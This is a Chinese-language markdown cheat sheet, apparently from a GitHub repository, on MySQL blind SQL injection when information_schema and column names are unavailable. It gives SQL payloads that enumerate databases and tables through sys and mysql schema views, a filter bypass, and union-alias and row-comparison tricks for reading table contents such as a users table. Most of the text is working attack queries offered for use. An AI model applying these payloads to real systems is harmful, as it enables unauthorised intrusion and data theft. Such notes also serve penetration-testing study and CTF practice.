


# MySQL无列名盲注

### 获取数据库名和表名：

**当过滤in/or时候，意味着不能继续使用information\_schema库**

#### 1.sys：

```sql
#查询所有的库
SELECT table_schema FROM sys.schema_table_statistics GROUP BY table_schema;
SELECT table_schema FROM sys.x$schema_flattened_keys GROUP BY table_schema;

#查询指定库的表（若无则说明此表从未被访问）
SELECT table_name FROM sys.schema_table_statistics WHERE table_schema='mspwd' GROUP BY table_name;
SELECT table_name FROM sys.x$schema_flattened_keys WHERE table_schema='mspwd' GROUP BY table_name;

#统计所有访问过的表次数:库名,表名,访问次数
select table_schema,table_name,sum(io_read_requests+io_write_requests) io from sys.schema_table_statistics group by 
table_schema,table_name order by io desc;

#查看所有正在连接的用户详细信息
SELECT user,db,command,current_statement,last_statement,time FROM sys.session;

#查看所有曾连接数据库的IP,总连接次数
SELECT host,total_connections FROM sys.host_summary;

```

**更多获取方式：**

```sql
select 列名 from sys.视图 where table_schema = '数据库名'
```



#### 2.mysql方法（不过滤in）：

```sql
select table_name from mysql.innodb_table_stats where database_name=database(); 
select table_name from mysql.innodb_index_stats where database_name=database();

```

### 无列名盲注

#### 两种方法：

**1.union重命名法**

**2.比较法**

#### 1.union重命名法

```sql
select a.2 from (select 1,2,3 union select * from users)a;
#前提是users有三列
```

#### 2.比较法

```sql
select (select ‘admin’, ‘0zzz’, ‘zzzzzzzzzz’)<(select * from users where username=‘admin’ limit 1);
```


